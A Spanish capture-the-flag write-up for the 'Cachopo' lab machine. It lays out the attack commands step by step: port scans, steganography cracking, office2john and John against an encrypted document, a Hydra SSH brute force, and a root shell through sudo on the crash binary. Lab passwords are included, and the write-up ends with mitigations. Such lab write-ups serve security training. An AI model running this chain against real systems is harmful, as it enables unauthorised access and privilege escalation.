### Información General

|Campo|Detalle|
|---|---|
|**Nombre**|Cachopo|
|**Plataforma**|TheHackersLabs|
|**Dificultad**|Fácil|
|**OS**|Linux (Debian 12)|
|**IP objetivo**|192.168.241.188|
|**Fecha**|18/09/2026|
|**Autor del writeup**|elc0ket|

---

### Resumen del Ataque

Máquina Linux de dificultad fácil con una cadena de explotación que combina reconocimiento web, esteganografía, cracking de documentos Office cifrados y fuerza bruta SSH. El acceso inicial se obtiene a través de un directorio oculto descubierto mediante un fichero embebido en una imagen JPEG, que aloja un documento de LibreOffice protegido con contraseña. El archivo revela nombres de usuarios del sistema, lo que permite un ataque de fuerza bruta sobre SSH. La escalada a root se consigue explotando el permiso `sudo` sobre el binario `crash`, que permite abrir una shell privilegiada.

---

### Técnicas Usadas

- Escaneo de puertos con Nmap (SYN scan, detección de versiones)
- Resolución de virtual host
- Esteganografía: extracción de datos ocultos en JPEG con `stegcracker` y `steghide`
- Cracking de documentos Office cifrados con `office2john` + `John the Ripper`
- Fuerza bruta SSH con `Hydra`
- Escalada de privilegios vía `sudo` + binario `crash` (NOPASSWD)

---

### Desarrollo

**1. Reconocimiento — Escaneo de puertos**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.188
```



Superficie de ataque reducida: SSH y HTTP. Se lanza un segundo escaneo con detección de versiones y scripts por defecto.

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.188  
```



Nmap detecta una redirección al virtual host `cachopo.thl`. Se añade la entrada al fichero `/etc/hosts` para que el nombre resuelva correctamente.

**2. Reconocimiento web**

```
http://cachopo.thl/
```


La página principal muestra la web de la máquina. Se observa una imagen `cachopo.jpg` referenciada en el código fuente, lo que invita a investigarla como posible vector de esteganografía.

```
http://cachopo.thl/cachopo.jpg
```

**3. Esteganografía — Extracción de datos ocultos en la imagen**

Se descarga la imagen y se ataca con `stegcracker` usando `rockyou.txt`:

```
stegcracker cachopo.jpg /usr/share/wordlists/rockyou.txt
```



Con la contraseña obtenida, se extrae el contenido oculto:

```
steghide extract -sf cachopo.jpg
```



Se introduce `doggies` como passphrase. Se extrae el fichero `directorio.txt`:

```
cat directorio.txt  
```



**4. Directory listing — Fichero Office cifrado**

```
http://cachopo.thl/mycachopo/
```



Se descarga el fichero `Cocineros` y se identifica su tipo:

```
file Cocineros 
```



Es un documento Microsoft Office cifrado. Se extrae el hash con `office2john`:

```
office2john Cocineros > hash.txt
```



Y se ataca con John:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```



Se abre el archivo con LibreOffice introduciendo la contraseña `horse1`. El documento revela una lista de cocineros:

```
libreoffice Cocineros
```





**5. Acceso inicial — Fuerza bruta SSH**

Con los nombres de usuario del documento, se lanza `Hydra` contra SSH. Se empieza por `carlos`:

```
hydra -l carlos -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.188 -t 4
```



Acceso SSH:

```
ssh carlos@192.168.241.188
```

```
carlos@Cachopo:~$ whoami
```



Se verifica qué usuarios tienen shell bash en el sistema:

```
carlos@Cachopo:~$ grep bash /etc/passwd
```



Solo `carlos` y `root`.

**6. Escalada de privilegios — sudo + crash**

```
carlos@Cachopo:~$ sudo -l
```



El binario `crash` (herramienta de análisis de volcados del kernel de Linux) puede ejecutarse como root sin contraseña. Según GTFOBins, `crash` permite escapar a una shell desde su interfaz interactiva. En esta máquina, la ejecución con `-h` produce directamente una shell root:

```
carlos@Cachopo:~$ sudo /usr/bin/crash -h
```

```
!/bin/bash
````

```
root@Cachopo:/home/carlos# whoami
```



**7. Flags**

```
root@Cachopo:/home/carlos# cat user.txt 
```



```
root@Cachopo:/home/carlos# cd /root/
root@Cachopo:~# cat root.txt 
```



### Lecciones Aprendidas

1. **La esteganografía como vector real:** No basta con enumerar directorios y parámetros web; los recursos estáticos (imágenes, audios) pueden contener datos ocultos con herramientas como `steghide`. `stegcracker` automatiza el ataque de diccionario de forma eficiente.
2. **Documentos Office cifrados como contenedor de información:** Un fichero `.doc`/`.xls` cifrado en un directorio web es una señal clara de que hay algo valioso dentro. `office2john` + John the Ripper es el flujo estándar para atacarlos.
3. **Los nombres de usuario son activos de ataque:** El documento no contenía contraseñas, pero sí nombres de persona. Traducir esos nombres a posibles usernames del sistema (`sofia`, `carlos`, `luis`) y atacarlos con fuerza bruta es una técnica habitual en entornos con poca disciplina en la gestión de credenciales.
4. **Binarios poco comunes en sudo:** `crash` no aparece habitualmente en listas de sudo. Siempre hay que comprobar GTFOBins con cualquier binario que `sudo -l` devuelva, incluso si no es conocido a priori.

### Medidas de Mitigación

1. **Imagen con datos esteganografiados en recurso web público**

   No publicar archivos que contengan información sensible embebida. Auditar los recursos estáticos antes de desplegar.

2. **Directorio oculto solo por URL (security through obscurity)**

   Proteger los directorios con autenticación HTTP o retirarlos del webroot. Deshabilitar el listado de directorios en Apache (`Options -Indexes`).

3. **Documento Office con nombres de usuario del sistema**

   No exponer información sobre cuentas del sistema en documentos accesibles. Gestionar la información sensible con control de acceso adecuado.

4. **Contraseña débil en SSH (bowwow)**

   Política de contraseñas robustas. Deshabilitar autenticación por contraseña en SSH (`PasswordAuthentication no`) y usar solo claves. Configurar `fail2ban`.

5. **sudo NOPASSWD sobre /usr/bin/crash**

   Eliminar el permiso sudo sobre `crash`. Si el binario es necesario para administración, requerir contraseña y restringir a operaciones concretas mediante wrappers auditados.